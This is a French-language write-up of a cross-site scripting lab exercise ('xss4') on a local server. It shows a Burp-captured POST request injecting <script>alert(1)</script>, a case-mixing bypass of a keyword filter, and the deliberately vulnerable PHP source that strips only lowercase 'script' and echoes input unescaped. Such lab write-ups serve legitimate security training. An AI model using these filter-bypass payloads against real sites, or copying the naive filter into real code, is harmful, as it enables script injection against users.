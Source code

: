 # xss4

## Exploitation

Le quatrième challenge demande explicitement de tenter une injection en utilisant la balise `<script></script>` :&#x20;

![](<../../../.gitbook/assets/image (13) (1).png>)

Une première protection que je rencontre est un contrôle du format de l'adresse email :&#x20;

![](<../../../.gitbook/assets/image (2) (1) (2).png>)

Un contournement en utilisant directement Burp est possible, mais ma payload ne semble pas fonctionner car le mot clé `script` est filtré :&#x20;

![](<../../../.gitbook/assets/image (11) (2).png>)

```http
POST /xss4/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss4/

user_email=<script>alert(1)</script>&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2094
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="row">
  <p style="color:red;" class="well">
    <strong></strong><>alert(1)</> is not registered.
  </p>
</div>
```

Ici il doit s'agir d'une protection de type pattern matching, je tente de le contourner en modifiant ma façon d'écrire la balise Javascript, soit `<ScRiPT>alert(1)</sCRIpt>` :&#x20;

![](<../../../.gitbook/assets/image (6) (3).png>)

## Analyse du code source

L'adresse email est récupéré dans la variable `$email`. Avant son affichage par la directive `echo`, un traitement est effectué par la méthode `xss_check_1()`. Cette méthode remplace le mot "script" par une chaîne de caractères vide mais sans faire attention à son format (minuscule, majuscule, répétition, etc) :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['user_email'])) {
    $email = $_POST['user_email'];
  }

  function xss_check_1($data) {
    // Converts only "<" and ">" to HTLM entities
    $input = str_replace("script", "", $data);
    $input = urldecode($input);
    return $input;
  }
?>

<div class="row">
  <p style="color:red;" class="well">
    <strong></strong><?php echo xss_check_1($email); ?> is not registered.
  </p>
</div>
```
